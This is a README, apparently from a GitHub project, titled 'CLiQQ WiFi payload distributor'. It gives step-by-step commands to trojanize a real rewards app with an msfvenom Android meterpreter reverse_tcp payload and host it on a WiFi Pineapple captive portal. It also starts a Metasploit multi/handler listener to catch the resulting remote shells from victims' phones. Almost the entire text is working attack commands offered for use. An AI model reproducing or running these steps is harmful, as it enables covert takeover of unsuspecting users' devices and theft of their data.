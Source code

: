 ## CLiQQ WiFi payload distributor

### Usage
Include this line on /etc/nginx/mime.types and then reboot the Pineapple or else the browser will parse the apk file into plain text

	application/vnd.android.package-archive 	apk;

Embedding payload on [original apk file](https://apkpure.com/cliqq-every-day-rewards/com.philseven.loyalty)

	msfvenom -x CLiQQ.apk -p android/meterpreter/reverse_tcp LHOST=172.16.42.42 LPORT=4444 -o CLiQQ_final.apk

Moving and renaming the modified apk file to the Pineapple

	scp CLiQQ_final.apk root@172.16.42.1:/sd/portals/cliqq-payload/CLiQQ.apk

Starting Metasploit listener

	msfconsole

	use multi/handler

	set payload android/meterpreter/reverse_tcp

	set LHOST 172.16.42.42

	set LPORT 4444

	set ExitOnSession false

	exploit -j